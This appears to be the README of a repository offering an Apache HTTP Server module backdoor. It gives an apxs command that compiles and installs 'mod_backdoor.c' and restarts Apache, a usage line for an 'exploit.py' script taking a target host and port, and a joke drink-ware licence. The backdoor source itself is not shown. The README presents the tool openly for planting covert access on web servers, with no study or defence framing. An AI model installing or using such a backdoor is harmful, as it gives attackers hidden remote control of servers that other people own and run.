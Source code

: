 Apache_HTTP_Server_Module_Backdoor
---

Installation:
```
apxs -i -a -c mod_backdoor.c && service apache2 restart
```

Usage:
```
python exploit.py [HOST] [PORT]
```

License
```
THE DRINKWARE LICENSE

<wangyihanger@gmail.com> wrote this file. As long as 
you retain this notice you can do whatever you want 
with this stuff. If we meet some day, and you think 
this stuff is worth it, you can buy me the following
drink(s) in return.

Red Bull
JDB
Coffee
Sprite
Cola
Harbin Beer
etc
```
